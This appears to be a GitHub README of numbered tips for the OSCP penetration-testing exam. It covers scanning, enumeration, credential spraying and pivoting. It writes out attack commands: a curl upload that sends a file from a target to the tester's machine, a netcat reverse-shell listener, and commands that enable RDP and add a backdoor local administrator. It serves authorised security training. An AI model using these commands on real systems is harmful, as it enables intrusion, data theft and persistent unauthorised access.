 ## oscp-tips ##
### Tips and Tricks for OSCP and Beyond! ###

1 - Run a quick port scanner like threader3000 or rustscan first. You can save good amount of time by this way, for example threader3000 scans all ports and suggests nmap only for open ports only./n 
2 - Run nmap -sS for all ports, compare open ports with previous scan.
3 - Run -sU (UDP) for well-known ports.
4 - Run gobuster in dir mode for all http/https ports with common world list. See if anything interesting.
5 - Run gobuster in fuzz mode with common world list.
6 - Run gobuster recursively for anything interesting, like you find out a script directory, try to find out directories within script. You should do this upto 3-4 level.
7 - Run gobuster for file extension using -x, like for php or aspx.
8 - Check UDP scan, see if SNMP is allowed or not. If SNMP port is open use snmpwalk with well-known default community strings.
9 - Run snmp with extended MIB, check hacktricks for more details.
10 - Check HTML code, check title of the page, sometimes you will get vulnerable system name from title itself.
11 - Check nmap scan, try to connect to every port using telnet or nc. Send some random keys and see the response.
12 - Check hacktricks (https://book.hacktricks.xyz/) if you don't know or aware about pentesting of a port or service.
13 - Use rpcclient to enum users and other details if RPC ports are open.
14 – Revert machines and perform scan again.
15 – Listen reverse shell on same ports which are open on victim. For example, if port 445 is open on victim, bidirectional traffic might be allowed on same port too. You can use “nc -lvnp 445” to catch reverse shell on Kali in that case, if others are not working. Try port 80 and 443 as well.
16 – Always try default credentials wherever applicable. For example, admin/password, administrator/password or admin/admin. Search google for default credentials as well.
17 – Always try username and password as machine name as credential. For example, if machine name is “berlin”, try to login FTP (or any other service) with berlin/berlin. Try username without password.
18 – If machine is running a portal with employee name (or email), they can be potential usernames. Make a list and use it for spraying.
19 – Use “updog” to transfer data between target and Kali. You can upload data from target to Kali using below command.
curl.exe -v -XPOST -F "file=@./SharpHound.ps1;filename=SharpHound.ps1" -F "path=." http://192.168.45.229:9090/upload
Please note that for above command file “SharpHound.ps1” should be saved in same directory from where you are running command. You can use impacket-smbserver as well.
20 – If using msfvenom reverse shell, use msfconsole multi handler to catch it. 
21 - Compile C/C++ exploit with "-static" flag, it will allow to include all required libraries as few might be missing on target. You can avoid “GLIBC not found” error by compiling with “-static”.
22 – If you can get root on a Windows machine (standalone or form AD set), install nmap on that and scan remaining machines from there. Scan will be very fast, you will surely save time.
23 – If you are not able to copy files directly to target machine copy it to another target and copy from there. For example, if you have root access on MS01 and low-level access on MS02. It is possible that you might not be allowed to copy files (like winPEAS) directly from Kali to MS02. Create a share folder on MS01, copy files to that folder. Now you can copy files from MS01 to MS02.
24 – Use ligolo-ng for pivoting between machines. You can use script from https://github.com/isr4r/misc-scripts/blob/master/ligolo.sh to configure ligolo easily.
25 – Use chisel for local port forwarding. For example, a service is running on target which is only locally allowed (or from 127.0.0.1). You should use chisel in this situation to open access for this service from Kali.
26 – Always check for ports open or allowed locally (for 127.0.0.1). You can connect to these ports on same target machine using “telnet localhost <port number>”. It will give you an idea if something interesting is running.
27 – For AD Set, after getting system level access, which might be over CLI, create a new account as local admin, enable RDP, login and do further enum like running mimikatz. You can use below commands to create user and enable RDP.
For RDP (PowerShell commands)
•	Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
•	Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

For Creating User
•	net user user1 Pass123 /add 
•	net localgroup Administrators user1 /add

28 – Try reverse shell from https://www.revshells.com/, keep trying as one of them will work in lab and in exam too.
29 – Try smbclient, FTP, rpcclient as null user or anonymous user or guest user as well. For example,
•	smbclient -U “” -L 192.168.120.20  
30 – If machine has an open source project check its github or code repo to understand directory structure.


